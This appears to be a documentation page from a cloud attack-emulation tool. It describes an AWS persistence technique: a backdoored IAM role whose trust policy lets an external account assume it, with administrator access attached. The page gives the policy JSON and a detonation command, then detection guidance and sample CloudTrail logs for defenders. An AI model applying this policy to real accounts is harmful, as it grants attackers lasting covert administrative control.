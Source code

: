 ```yaml
---
title: Create a backdoored IAM Role
---
```


# Create a backdoored IAM Role




Platform: AWS

## MITRE ATT&CK Tactics


- Persistence

## Description


Establishes persistence by creating a new backdoor role with a trust policy allowing it to be assumed from 
an external, fictitious attack AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: None.

<span style="font-variant: small-caps;">Detonation</span>: 

- Create a new IAM role with the following trust policy:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```

- Attach the 'AdministratorAccess' managed IAM policy to it. 

*Note: For safety reasons, the detonation code makes sure that this role has no real effective permissions, by attaching a permissions boundary denying all actions. This could also be achieved with an inline role policy, but using a permissions boundary allows us to use a single API call (CreateRole).*

References:

- https://www.invictus-ir.com/news/the-curious-case-of-dangerdev-protonmail-me
- https://unit42.paloaltonetworks.com/large-scale-cloud-extortion-operation/


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.persistence.iam-create-backdoor-role
```
## Detection


- Through [IAM Access Analyzer](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-iam-role), 
which generates a finding when a role can be assumed from a new AWS account or publicly.

- Identify a call to <code>CreateRole</code> closely followed by <code>AttachRolePolicy</code> with an administrator policy.

- Identify a call to <code>CreateRole</code> that contains an assumeRolePolicyDocument in the requestParameters that allows access from an external AWS account. Sample event:

```
{
  "eventSource": "iam.amazonaws.com",
  "eventName": "CreateRole",
  "requestParameters": {
	"roleName": "malicious-iam-role",
	"assumeRolePolicyDocument": "{\n  \"Version\": \"2012-10-17\",\n  \"Statement\": [\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"Service\": \"ec2.amazonaws.com\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    },\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"AWS\": \"arn:aws:iam::193672423079:root\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    }\n  ]\n}"
   }
}
```



## Detonation logs <span class="smallcaps w3-badge w3-light-green w3-round w3-text-sand">new!</span>

The following CloudTrail events are generated when this technique is detonated[^1]:


- `iam:CreateRole`

- `iam:AttachRolePolicy`


??? "View raw detonation logs"

    ```json hl_lines="6 40"

    [
	   {
	      "awsRegion": "sagov-west-2r",
	      "eventCategory": "Management",
	      "eventID": "39480357-0a1d-4531-a3f2-71be4c041c25",
	      "eventName": "AttachRolePolicy",
	      "eventSource": "iam.amazonaws.com",
	      "eventTime": "2024-08-01T13:37:41Z",
	      "eventType": "AwsApiCall",
	      "eventVersion": "1.09",
	      "managementEvent": true,
	      "readOnly": false,
	      "recipientAccountId": "609418236337",
	      "requestID": "09b3fc1c-c0c0-4e86-9bad-e0928a089e0d",
	      "requestParameters": {
	         "policyArn": "arn:aws:iam::aws:policy/AdministratorAccess",
	         "roleName": "stratus-red-team-malicious-iam-role"
	      },
	      "responseElements": null,
	      "sourceIPAddress": "209.209.254.254",
	      "tlsDetails": {
	         "cipherSuite": "TLS_AES_128_GCM_SHA256",
	         "clientProvidedHostHeader": "iam.amazonaws.com",
	         "tlsVersion": "TLSv1.3"
	      },
	      "userAgent": "stratus-red-team_e2808a95-acc5-4508-b083-d31d6f4315d9",
	      "userIdentity": {
	         "accessKeyId": "AKIA0W5KI69TY8X86BGT",
	         "accountId": "609418236337",
	         "arn": "arn:aws:iam::609418236337:user/christophe",
	         "principalId": "AIDAK4TRC24VBN0JX8JX",
	         "type": "IAMUser",
	         "userName": "christophe"
	      }
	   },
	   {
	      "awsRegion": "sagov-west-2r",
	      "eventCategory": "Management",
	      "eventID": "d2905ac3-9898-433f-b10d-9302abe4e208",
	      "eventName": "CreateRole",
	      "eventSource": "iam.amazonaws.com",
	      "eventTime": "2024-08-01T13:37:41Z",
	      "eventType": "AwsApiCall",
	      "eventVersion": "1.09",
	      "managementEvent": true,
	      "readOnly": false,
	      "recipientAccountId": "609418236337",
	      "requestID": "105d4d57-6f6d-43ce-b6a4-5b67c68b4ab5",
	      "requestParameters": {
	         "assumeRolePolicyDocument": "{\n  \"Version\": \"2012-10-17\",\n  \"Statement\": [\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"AWS\": \"arn:aws:iam::193672423079:root\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    }\n  ]\n}",
	         "permissionsBoundary": "arn:aws:iam::aws:policy/AWSDenyAll",
	         "roleName": "stratus-red-team-malicious-iam-role"
	      },
	      "responseElements": {
	         "role": {
	            "arn": "arn:aws:iam::609418236337:role/stratus-red-team-malicious-iam-role",
	            "assumeRolePolicyDocument": "%7B%0A%20%20%22Version%22%3A%20%222012-10-17%22%2C%0A%20%20%22Statement%22%3A%20%5B%0A%20%20%20%20%7B%0A%20%20%20%20%20%20%22Effect%22%3A%20%22Allow%22%2C%0A%20%20%20%20%20%20%22Principal%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22AWS%22%3A%20%22arn%3Aaws%3Aiam%3A%3A193672423079%3Aroot%22%0A%20%20%20%20%20%20%7D%2C%0A%20%20%20%20%20%20%22Action%22%3A%20%22sts%3AAssumeRole%22%0A%20%20%20%20%7D%0A%20%20%5D%0A%7D",
	            "createDate": "Aug 1, 2024 1:37:41 PM",
	            "path": "/",
	            "permissionsBoundary": {
	               "permissionsBoundaryArn": "arn:aws:iam::aws:policy/AWSDenyAll",
	               "permissionsBoundaryType": "Policy"
	            },
	            "roleId": "AROA53G8Z8NGXMJ597G3E",
	            "roleName": "stratus-red-team-malicious-iam-role"
	         }
	      },
	      "sourceIPAddress": "209.209.254.254",
	      "tlsDetails": {
	         "cipherSuite": "TLS_AES_128_GCM_SHA256",
	         "clientProvidedHostHeader": "iam.amazonaws.com",
	         "tlsVersion": "TLSv1.3"
	      },
	      "userAgent": "stratus-red-team_e2808a95-acc5-4508-b083-d31d6f4315d9",
	      "userIdentity": {
	         "accessKeyId": "AKIA0W5KI69TY8X86BGT",
	         "accountId": "609418236337",
	         "arn": "arn:aws:iam::609418236337:user/christophe",
	         "principalId": "AIDAK4TRC24VBN0JX8JX",
	         "type": "IAMUser",
	         "userName": "christophe"
	      }
	   }
	]
    ```

[^1]: These logs have been gathered from a real detonation of this technique in a test environment using [Grimoire](https://github.com/DataDog/grimoire), and anonymized using [LogLicker](https://github.com/Permiso-io-tools/LogLicker).
